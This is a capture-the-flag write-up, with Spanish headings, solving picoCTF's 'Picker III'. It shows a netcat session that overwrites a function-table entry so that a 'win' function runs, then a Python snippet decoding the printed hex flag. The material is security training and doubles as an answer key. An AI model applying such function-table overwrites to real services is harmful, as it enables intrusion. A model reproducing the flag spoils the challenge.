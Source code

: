 ## Objetivo
Can you figure out how this program works to get the flag?Connect to the program with netcat:`$ nc saturn.picoctf.net 53643`The program's source code can be downloaded [here](https://artifacts.picoctf.net/c/526/picker-III.py).

Hint
- Is there any way to modify the function table?

## Solucion

```bash
┌──(wil㉿DESKTOP-FKOIV4I)-[~]
└─$ nc saturn.picoctf.net 53643
==> help

This program fixes vulnerabilities in its predecessor by limiting what
functions can be called to a table of predefined functions. This still puts
the user in charge, but prevents them from calling undesirable subroutines.

* Enter 'quit' to quit the program.
* Enter 'help' for this text.
* Enter 'reset' to reset the table.
* Enter '1' to execute the first function in the table.
* Enter '2' to execute the second function in the table.
* Enter '3' to execute the third function in the table.
* Enter '4' to execute the fourth function in the table.

Here's the current table:

1: print_table
2: read_variable
3: write_variable
4: getRandomNumber
==> 3
Please enter variable name to write: getRandomNumber
Please enter new value of variable: win
==> 4
0x70 0x69 0x63 0x6f 0x43 0x54 0x46 0x7b 0x37 0x68 0x31 0x35 0x5f 0x31 0x35 0x5f 0x77 0x68 0x34 0x37 0x5f 0x77 0x33 0x5f 0x67 0x33 0x37 0x5f 0x77 0x31 0x37 0x68 0x5f 0x75 0x35 0x33 0x72 0x35 0x5f 0x31 0x6e 0x5f 0x63 0x68 0x34 0x72 0x67 0x33 0x5f 0x32 0x32 0x36 0x64 0x64 0x32 0x38 0x35 0x7d
==> exit
```

``` python
>>> cadena="0x70 0x69 0x63 0x6f 0x43 0x54 0x46 0x7b 0x37 0x68 0x31 0x35 0x5f 0x31 0x35 0x5f 0x77 0x68 0x34 0x37 0x5f 0x77 0x33 0x5f 0x67 0x33 0x37 0x5f 0x77 0x31 0x37 0x68 0x5f 0x75 0x35 0x33 0x72 0x35 0x5f 0x31 0x6e 0x5f 0x63 0x68 0x34 0x72 0x67 0x33 0x5f 0x32 0x32 0x36 0x64 0x64 0x32 0x38 0x35 0x7d".split()
>>> for car in cadena: print( chr(int(car,16)), end='')
...
picoCTF{7h15_15_wh47_w3_g37_w17h_u53r5_1n_ch4rg3_226dd285}>>>
```

## Notas adicionales
## Referencias